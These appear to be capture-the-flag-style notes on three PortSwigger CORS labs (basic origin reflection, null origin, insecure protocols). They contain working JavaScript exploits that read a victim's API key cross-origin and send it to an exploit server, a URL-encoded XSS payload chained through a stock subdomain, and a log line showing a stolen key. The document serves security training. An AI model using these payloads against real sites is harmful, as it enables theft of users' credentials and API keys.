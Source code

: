 # Cross Origin Resource Sharing

## CORS vulnerability with basic origin reflection
https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

Reading the source code after logging in reveals an endpoint which was used

![](Pasted%20image%2020220514111546.png)

```html
<div>Your API Key is: <span id=apikey></span></div>
<script>
	fetch('/accountDetails', {credentials:'include'})
	.then(r => r.json())
	.then(j => document.getElementById('apikey').innerText = j.apikey)
</script>
```

Deliver this exploit to the user through the exploit server

```
...
Origin: https://exploit-ac9f1f6d1e659a4fc0f1543401340027.web-security-academy.net
```

```html
<div>Your API Key is: <span id=apikey></span></div>
<script>
    var EXPURL = "https://exploit-ac9f1f6d1e659a4fc0f1543401340027.web-security-academy.net";
    fetch('https://ac0e1f7b1ed99a63c0545434007100a1.web-security-academy.net/accountDetails', {credentials:'include'})
        .then(r => r.json())
        .then(j => fetch(EXPURL+'/'+j.apikey, {credentials:'include'}))
</script>
```

Check the logs

```
172.31.30.154   2022-05-28 17:01:14 +0000 "GET /Rsa2DyCqkImZEW6285UCrbS17fwEXdJp HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.64 Safari/537.36"
116.14.150.8    2022-05-28 17:01:14 +0000 "GET / HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36"
```

## CORS vulnerability with trusted null origin
https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Origin: null
```

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<div>Your API Key is: <span id=apikey></span></div>
<script>
    var EXPURL = 'https://exploit-0a2c002303c92b3ac0d4089b01ae000c.web-security-academy.net/';
    fetch('https://0aa300da033a2b7dc010085d009c003c.web-security-academy.net/accountDetails', {credentials:'include'})
        .then(r => r.json())
        .then(j => fetch(EXPURL+'/'+j.apikey, {credentials:'include'}))
</script>"></iframe>
```
## CORS vulnerability with trusted insecure protocols
https://portswigger.net/web-security/cors/lab-breaking-https-attack

On looking at the stockcheck function, you notice that a subdomain is opened, likely where its exploited at

```
<script>
    const stockCheckForm = document.getElementById("stockCheckForm");
    stockCheckForm.addEventListener("submit", function(e) {
	const data = new FormData(stockCheckForm);
	window.open('http://stock.0a660041031c2f37c0fe4299000b0099.web-security-academy.net/?productId=1&storeId=' + data.get('storeId'), 'stock', 'height=10,width=10,left=10,top=10,menubar=no,toolbar=no,location=no,status=no');
	e.preventDefault();
    });
</script>
```

You can inject `<script>alert(1)</script>` into the productId parameter. You can identify this by testing the parameters, and notice the contents of productId is reflected if not valid

![image](https://user-images.githubusercontent.com/18213722/201603007-6a3e12d1-639c-4de7-9896-89233ab66b68.png)

I url encoded this XSS payload 

```js
<script> var EXPURL = 'https://exploit-0a7400b003922ffec0c34243016100d6.exploit-server.net/?';
    fetch('https://0a660041031c2f37c0fe4299000b0099.web-security-academy.net/accountDetails', {credentials:'include'})
        .then(r => r.json())
        .then(j => fetch(EXPURL+j.apikey, {credentials:'include'}) )
</script>
```
Afterward used this Exploit Server Payload

```js
<script>
var data = "%3Cscript%3E%20var%20EXPURL%20%3D%20%27https%3A%2F%2Fexploit%2D0a7400b003922ffec0c34243016100d6%2Eexploit%2Dserver%2Enet%2F%3F%27%3B%0A%20%20%20%20fetch%28%27https%3A%2F%2F0a660041031c2f37c0fe4299000b0099%2Eweb%2Dsecurity%2Dacademy%2Enet%2FaccountDetails%27%2C%20%7Bcredentials%3A%27include%27%7D%29%0A%20%20%20%20%20%20%20%20%2Ethen%28r%20%3D%3E%20r%2Ejson%28%29%29%0A%20%20%20%20%20%20%20%20%2Ethen%28j%20%3D%3E%20fetch%28EXPURL%2Bj%2Eapikey%2C%20%7Bcredentials%3A%27include%27%7D%29%20%29%0A%3C%2Fscript%3E";

window.open('http://stock.0a660041031c2f37c0fe4299000b0099.web-security-academy.net/?productId='+data+'&storeId=1', 'stock', 'height=10,width=10,left=10,top=10,menubar=no,toolbar=no,location=no,status=no');
</script>                   
```
